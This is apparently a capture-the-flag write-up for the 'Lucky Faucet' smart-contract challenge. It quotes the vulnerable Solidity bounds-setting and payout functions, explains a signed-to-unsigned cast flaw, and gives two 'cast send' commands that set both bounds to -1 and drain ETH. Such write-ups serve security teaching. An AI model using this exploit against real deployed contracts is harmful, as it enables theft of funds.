# Lucky Faucet


# code / Description
```solidity
function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
    require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
    require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
    require(_newLowerBound <= _newUpperBound);
    upperBound = _newUpperBound;
    lowerBound = _newLowerBound;
}
```

```solidity
function sendRandomETH() public returns (bool, uint64) {
    int256 randomInt = int256(blockhash(block.number - 1));
    uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
    bool sent = msg.sender.send(amountToSend);
    return (sent, amountToSend);
}
```

# Challenge Analysis

The "Lucky Faucet" challenge involves a smart contract designed to send a random amount of ETH based on a pseudo-random number derived from the blockhash and the set bounds. The critical flaw lies in the handling of integer underflow when setting the bounds, allowing for unexpected behavior when calculating the amount of ETH to send.


# Solution

The solution exploits the type casting vulnerability by setting the upperBound and lowerBound such that the calculation randomInt % (upperBound - lowerBound + 1) + lowerBound results in a negative value. When this negative value is cast to an unsigned integer (uint64), it becomes a very large positive number, thereby exploiting the contract to send a large amount of ETH. This is achieved by calling setBounds with values that lead to a negative outcome for the amount to send, and then invoking sendRandomETH to trigger the flawed logic and cast the negative result to an unexpectedly large positive value.

Adjust both upperBound and lowerBound to -1, ensuring that the expression randomInt % (upperBound - lowerBound + 1) consistently equals zero. Consequently, the amountToSend will always be equal to lowerBound.


# Final Exploit
```bash
cast send --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> <TARGET_CONTRACT_ADDRESS> "setBounds(int64,int64)" -- -1 -1 
```

```bash
cast send --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> <TARGET_CONTRACT_ADDRESS> "sendRandomETH()"
```

**AUTHOR**:
> Mohammad2024 / Pr1m3d Team